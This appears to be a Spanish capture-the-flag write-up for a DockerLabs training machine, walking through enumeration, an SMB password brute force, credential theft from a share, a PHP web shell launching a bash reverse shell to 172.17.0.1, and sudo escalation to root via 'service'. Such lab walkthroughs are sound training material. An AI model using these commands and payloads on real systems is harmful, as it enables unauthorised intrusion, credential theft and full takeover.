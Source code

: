 nmap: 22,80,139,445

![image](https://github.com/user-attachments/assets/78d857c5-460d-42ce-94d6-3159515263ec)

---
hacemos un gobuster y nos da:

    gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,html,py,txt -t 64

![image](https://github.com/user-attachments/assets/b8a8ebeb-3b95-4134-a7fc-d1775b21470d)

    - info.php
    - productos.php

productos.php nos manda a otra pagina 

![image](https://github.com/user-attachments/assets/53410e19-348e-427a-94ea-322298cafe73)

en esa hay posibles contraseñas o usuarios como "shopo" o el codigo SHOPO20

haciendo un:
> enum4linux 172.17.0.2

nos da usuarios que tienen:

     - usuario1
     - usuario1
     - usuario3
     - satriani7
     - administrador

![image](https://github.com/user-attachments/assets/b54865f2-aa71-4d41-b4f6-bb8620adca3b)

hacemos una fuerza bruta: 

    sudo netexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding 

da:
> santriani7/50cent

![image](https://github.com/user-attachments/assets/6faf8fb6-d6a8-4faa-8de6-bd3e44c9e241)

lo utilizamos para ver que ficheros tiene:

    smbmap -u 'satriani7' -p '50cent' -H 172.17.0.2

da:

    - myshare
    - backup24

![image](https://github.com/user-attachments/assets/36b341bc-287c-48d7-9386-0a2f917309fa)

nos conectamos ahora al "smb" 

    smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'

dentro hay varios documentos
seguimos esta ruta: 
> Documentos > personal > get credentials.txt

![[document.png]]

en nuestra terminal lo leemos y tiene los usuarios y contraseñas

![[credencial.png]]

entramos por el ssh con la de administrador

     administrador/Adm1nP4ss2024

![[dockerlabs/facil/allien/conexion.png]]

hacemos el comando: find / -user administrador 2>/dev/null
y encontramos esto

![[var.png]]

Sabiendo esto, podemos intentar crear un archivo que nos permita pasar al usuario "www-data"

vamos a la siguiente dirección:
> cd /var/www/html

creamos primero una carpeta llamada: shell.sh

    - #!/bin/bash
    - bash -i >& /dev/tcp/172.17.0.1/443 0>&1

ahora creamos una carpeta con php

      - <?php
      - system('./shell.sh')
      - ?>

ahora vamos al navegador que esten utilizando, en este caso firefox y colocamos: 
    http://172.17.0.2/shell.php
en el terminal victima colocamos en escucha: nc -nlvp 443 

![[dockerlabs/facil/allien/conexion2.png]]

y estamos otra vez dentro

ahora un tratamiento stty

colocamos sudo -l
podemos escalar por "service". lo buscamos: https://gtfobins.github.io/gtfobins/service/#sudo

![[dockerlabs/facil/allien/sudo.png]]

lanzamos el comando que nos da: 

    sudo service ../../bin/sh

bash -p

![[dockerlabs/facil/allien/root.png]]

y somos root! 
